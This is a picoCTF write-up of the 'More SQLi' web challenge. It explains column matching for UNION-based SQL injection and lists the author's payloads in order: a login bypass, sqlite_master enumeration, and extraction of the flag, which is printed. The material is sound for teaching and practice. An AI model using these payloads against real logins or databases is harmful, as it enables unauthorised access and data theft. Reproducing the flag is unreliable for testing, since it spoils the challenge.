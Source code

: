 ## Challenge: More SQLi

## Category: Web Exploitation

### Description: Can you find the flag on this website. 

### Hints:

#### 1. SQLiLite

The exploit of the chall was to use SQL injections to bypass login and exfiltrate data from the web server hosting the website. The login bypass is an obstacle that I have done before, which is to basically comment out a field and make the boolean expression in the login evaluate to true. The main issue I had was figuring out how to exfiltrate the database data. I tried copypasta'ing SQL and more specifically SQLite payloads by implementing a UNION statement, but none of them seemed to work, even when I commented out the latter part of the query made by the server and closed out the single quotation. I then realized that when I made a UNION statement, the number of columns of the table already being queried had to match up to the number of columns of the table referenced in the latter part of the statement. I made the adjustment by using 3 placement arguments for 3 columns in the tables I was exfitrating in the SELECT statements that I was placing in the UNION ones, allowing me to get the information I needed. Here are the payloads I used, sequentially:

>' OR 1=1;-- to bypass login

>' union SELECT tbl_name,1,2 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--
>>Shows 4 tables: hints, more_table, offices, users

>' union SELECT sql,1,2 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name';--
>>Prints out commands used to generate table, shows its column names

>' union SELECT id,info,3 from hints;--
>> Nothing important, id and flag are the two columns in the table

>' union select id,flag,3 from more_table;--
>>BOOM flag unlocked

#### Reference: [1](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version)

### Flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}

Solved by giggsterpuku
